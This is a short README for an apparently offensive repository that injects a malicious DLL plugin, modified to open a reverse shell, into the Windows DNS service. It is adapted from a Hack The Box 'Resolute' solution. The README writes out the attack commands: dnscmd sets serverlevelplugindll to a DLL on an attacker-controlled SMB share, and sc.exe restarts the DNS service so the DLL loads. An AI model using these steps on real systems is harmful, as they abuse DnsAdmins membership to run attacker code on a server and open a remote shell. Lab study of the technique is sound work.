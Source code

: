 # dns-exe-persistance
sample plugin dll for windows DNS server: ServerLevelPluginDll, inject a malicious DLL plugin into the DNS service (compromised user is a member of DNSAdmin group on the target machine)

Modified and added a reverse shell \
From IppSec's solution to Resolute@HTB



Compile DLL, transfer it to a remote SMB Share \
On victim machine (with user belongs to group DnsAdmins): ```dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.x.x.x\$SHARENAME\$DLLNAME.dll``` \
Restart DNS Server on the victim machine: ```sc.exe stop dns && sc.exe start dns```


